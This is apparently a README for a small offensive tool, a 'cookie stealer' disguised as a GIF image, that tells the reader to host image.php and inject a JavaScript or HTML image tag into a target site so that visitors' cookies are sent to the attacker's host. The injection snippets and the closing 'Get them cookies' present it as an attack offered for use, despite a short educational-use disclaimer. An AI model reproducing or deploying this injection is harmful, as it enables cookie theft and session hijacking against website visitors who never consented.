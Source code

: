 # Cookie Stealer

A cookie stealer disguised as a gif image.

## Hot to use

Host the *image.php* file wherever you want.

Inject the code on the target

```javascript
let img = new Image();
img.src = "http://yoursite.com/image.php";
document.body.appendChild(img);
```
or in plain html

```html
<img src="http://yoursite.com/image.php">
```

Get them cookies.

## Disclaimer

I'm not responsible for your actions. The code provided here is for educational purpose only. If you find a web site with code injection vulnerability, inform them.

I write this script some time ago, after watching this video:
[![Send cookies with image request](http://img.youtube.com/vi/KaEj_qZgiKY/0.jpg)](http://www.youtube.com/watch?v=KaEj_qZgiKY?t=167)

